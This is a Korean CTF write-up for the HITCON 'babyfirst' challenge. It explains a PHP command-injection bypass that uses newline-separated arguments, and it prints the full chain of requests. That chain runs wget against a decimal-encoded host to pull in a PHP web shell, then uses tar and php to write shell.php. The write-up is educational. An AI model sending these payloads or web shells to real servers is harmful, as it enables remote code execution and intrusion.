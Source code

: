 ============================================================================================================
[HITCON] babyfirst
============================================================================================================

|

.. graphviz::

    digraph G {
        rankdir="LR";
        node[shape="point"];
        edge[arrowhead="none"]

        {
            rank="same";
            "client"[shape="plaintext"];
            "client" -> step0 -> step2 -> step4 -> step6 -> step8;
        }

        {
            rank="same";
            "server"[shape="plaintext"];
            "server" -> step1 -> step3 -> step5 -> step7 -> step9;
        }
        step0 -> step1[label="index.php?args[]=a%0a&args[]=touch&args[]=test",arrowhead="normal"];
        step3 -> step2[label="test file create",arrowhead="normal"];
        step4 -> step5[label="index.php?args[]=a%0a&args[]=wget&args[]=3232235536",arrowhead="normal"];
        step7 -> step6[label="@solve",arrowhead="normal"];
    }

|

취약점 존재 여부 확인
============================================================================================================

- GET 페이지 취약점
- GET 파라미터: args
- preg_match

.. code-block:: php

    <?php
        highlight_file(__FILE__);
        $dir = 'sandbox/' . $_SERVER['REMOTE_ADDR'];
        if ( !file_exists($dir) )
            mkdir($dir);
        chdir($dir);
        $args = $_GET['args'];
        for ( $i=0; $i<count($args); $i++ ){
        if ( !preg_match('/^\w+$/', $args[$i]) )
            exit();
        }
        exec("/bin/orange" . implode(" ", $args));
    ?>

|

Array 취약점
============================================================================================================

- args[]에 문자열 이외에는 값을 입력하지 못하도록 preg_match를 걸어놨습니다.
- args[] 문자열 끝에 %0a(LF)를 넣을 수 있습니다.
- touch 명령어로 파일 생성을 할 수 있습니다.

.. code-block:: console
    
    http://52.68.245.164/index.php?
    args[]=a%0a&
    args[]=touch&
    args[]=test

    [실제 백엔드 동작]
    /bin/orange a%0a
    touch test

.. image:: ../_images/babyfirst-01_1.png
    :align: center



|

wget을 통한 우회
============================================================================================================

- wget으로 ip를 10진수 형식으로 변환해서 다운로드를 진행합니다.  (여기서 로컬 테스트라고 가정해서 192.168.0.16=>3232235536으로 설정했습니다.)

.. code-block:: text

    ※ ip를 10진수로 바꿔야 하는 이유?

    코드를 보시면 아시겠지만 문자열을 제외한 모든 입력에 대해 제한이 걸려있기 때문에 .을 쓸 수가 없습니다. 그렇기 때문에 10진수로 바꿔서 wget을 진행합니다.

- 외부 접속이 가능한 ip에 웹 서버를 구축하고, index.php 파일을 하나 만들어 올립니다.

.. code-block:: php

    <?php
        print shell_exec($_GET["cmd"]);
    ?>
 
- 그리고 wget으로 해당 ip(10진수)를 지정해주면 해당 파일이 sandbox/ip/ 폴더에 저장됩니다.

.. code-block:: console

    http://52.68.245.164/index.php?
    args[]=a%0a&
    args[]=wget&
    args[]=3232235536

    [실제 백엔드 동작]
    /bin/orange a%0a
    wget 3232235536

- 여기서부터 또 하나 관문에 부딫혔습니다. wget을 쓸 경우 index.html로 고정되어 다운로드 된다는 점입니다. 

.. code-block:: text
    
    ※ wget으로 다운로드 시 index.html로 고정되면 안되는 이유?

    html 페이지로는 쉘을 실행할 수 없기 때문에 php 코드로 저장이 가능해야 합니다.
 

|

tar를 통한 우회
============================================================================================================

- 그렇다면 대시(-)나 점(.)을 쓰지 않고 우회할 수 있는 리눅스 쉘 명령을 실행하는 방법이 뭐가 있을까요? (라이트업을 보니 wget 대신 busybox ftpget, twistd telnet 을 쓴 것도 있네요.) 
- php 소스가 있는 index.html을 새로 생성한 폴더에 다운로드한 후, 그 폴더를 tar를 통해 점이 없는 파일로 압축해서 점(.)을 우회하도록 합니다.

**index.html**

.. code-block:: bash
    
    <?
    phpfile_put_contents('shell.php', '    <?php    print shell_exec($_GET["cmd"]);    ?>');
    ?>

.. code-block:: text

    http://52.68.245.164/index.php?
    args[]=a%0a&
    args[]=mkdir&
    args[]=exploit%0a&
    args[]=cd&
    args[]=exploit%0a&
    args[]=wget&
    args[]=3232235536%0a&
    args[]=tar&
    args[]=cvf&
    args[]=archived&
    args[]=exploit%0a&
    args[]=php&
    args[]=archived

    /bin/orange a%0a
    mkdir exploit%0a
    cd exploit%0a
    wget 3232235536%0a
    tar cvf archived exploit%0a
    php archived


- 결국 대쉬(-)도 안쓰고 점(.)도 안쓰고 php 명령을 실행해서 shell.php 파일을 만들어내는군요.
- 테스트는 안해봤지만 아마 다음과 같이 쉘 명령을 실행할 수 있을 것으로 보입니다.

.. code-block:: bash

    http://52.68.245.164/sandbox/local_ip/shell.php?cmd=ls

|